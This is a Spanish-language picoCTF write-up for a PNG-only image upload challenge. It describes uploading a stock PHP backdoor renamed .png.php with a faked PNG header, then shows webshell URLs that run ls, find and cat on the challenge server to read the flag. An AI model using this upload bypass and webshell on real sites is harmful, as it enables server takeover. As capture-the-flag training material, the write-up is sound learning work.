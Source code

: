 ## Objetivo
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance¿´pñ.

## Solución
- Copiamos el archivo /usr/share/webshells/php/simple-backdoor.php a nuestra carpeta de picoCTF ahora llamado webshells.php
- Le editamos la extensión a .png.php para que la página lo reconozca como imagen
- Con nano le agregamos la palabra .PNG al principio del archivo
- Subimos ese archivo a la página
- http://atlas.picoctf.net:60912/uploads/webshell.png.php?cmd=ls para verificar que sirva el webshell
- http://atlas.picoctf.net:60912/uploads/webshell.png.php?cmd=find%20/%20-name%20*txt%202%3E/dev/null para encontrar los archivos txt
- http://atlas.picoctf.net:60912/uploads/webshell.png.php?cmd=cat%20/var/www/html/MQZWCYZWGI2WE.txt para leer el archivo que tiene la bandera 
![[Pasted image 20240930202109.png]]
## Notas adicionales
**Webshell** - Una webshell **es un código capaz de interpretar la información de un servidor web, que le permite a un atacante tomar el control de este**. En otras palabras, es una pequeña aplicación web que permite ejecutar tareas dentro del sitio comprometido, al igual que una terminal en un sistema operativo.
## Referencias

